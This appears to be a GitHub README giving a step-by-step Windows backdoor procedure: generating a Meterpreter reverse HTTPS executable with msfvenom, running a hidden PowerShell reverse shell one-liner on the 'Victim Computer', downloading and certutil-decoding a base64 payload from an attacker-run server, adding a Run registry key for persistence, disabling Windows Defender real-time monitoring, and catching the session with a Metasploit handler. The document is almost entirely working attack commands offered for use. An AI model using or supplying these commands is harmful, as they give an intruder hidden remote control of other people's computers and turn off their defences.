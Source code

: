 
## Create Backdoor
```
msfvenom -p windows/meterpreter/reverse_https lhost=[your ip] lport=[your port]  -f exe -o backdoor.exe
```
## Encode Backdoor
Go to [Here](https://www.base64encode.org) to Encode Backdoor

## Netcat
``` bash
nc -lvnp [Your port]
```
## Victim
Run this in Victim Computer
``` powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('[your ip]', [your port]);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
## Make Directory
Make Directory to save backdoor
``` bash
mkdir c:\Users\[User_name]\AppData\LocalLow\Temp
```
## Use python to make server

``` bash
python -m http.server
```
## Download String base64 backdoor
Download String From Your Server Python
``` powershell
(New-Object System.Net.WebClient).DownloadString("http://example.com/file-encode.txt") > file.txt
```
## Ddecode Base64

``` powershell
certutil -decode c:\Users\[User Name]\AppData\LocalLow\Temp\file-encode.txt c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Create Regkey
Create a Regkey to execute Backdoor when start Windows 
``` powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name "Sys" -Value "c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe" -PropertyType "String"
```
## Msfconsole
Run msfconsole

- Use exploit handler
``` msfconsole
use exploit/multi/handler
``` 
- Set Payload
``` msfconsole
set payload windows/meterpreter/reverse_https
```
- Set Lhost
``` msfconsole
set lhost [your ip] 
```
- Set lport
``` msfconsole
set lport [your port]
```
- Run
``` msfconsole
run 
```
## Disable Windows Defender
``` powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
## Unlock Backdoor
```powershell
Unblock-File -Path c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Execute Backdoor
```powershell
./decode.exe
```
